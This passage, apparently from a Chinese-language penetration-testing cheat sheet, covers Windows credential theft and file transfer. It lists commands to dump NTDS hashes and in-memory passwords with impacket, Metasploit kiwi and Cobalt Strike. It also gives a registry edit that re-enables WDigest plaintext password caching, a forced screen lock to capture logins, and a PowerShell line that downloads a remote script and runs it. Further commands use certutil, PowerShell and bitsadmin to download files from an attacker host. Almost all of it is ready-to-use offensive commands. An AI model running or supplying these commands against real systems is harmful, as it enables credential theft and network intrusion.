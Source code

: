   报错使用

  `impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL `

  

* msf

  ```
  load kiwi
  creds_all
  
  hashdump
  
  run post/windows/gather/credentials/domain_hashdump
  ```

  

* cs

  `logonpasswords`

  `hashdump`

  

  在Windows2012系统及以上的系统或者安装 *KB2871997* 补丁后，在内存缓存中禁止保存明文密码的。攻击者可以通过修改注册表的方式抓取明文，需要用户重新登录后才能成功抓取

​	`reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f`

​	强制锁屏，让其重新登陆

`rundll32 user32.dll,LockWorkStation` //cmd

`powershell -c "IEX (New-Object Net.WebClient).DownloadString('http://raw.githubusercontent.com/kiraly15/Lock-WorkStation/master/Lock-WorkStation.ps1');"`//powershell

#### 3.3文件传输

##### 1. 文件下载

* certutil

```
    certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt
    certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt delete//删除缓存
```

* powershell

  ```powershell
  powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://192.168.1.115/robots.txt','C:\windows\temp\robots.txt')
  ```

* bitsadmin

  ```
  bitsadmin /rawreturn /transfer down "http://192.168.1.115/robots.txt" E:\PDF\robots.txt
  ```

* wget
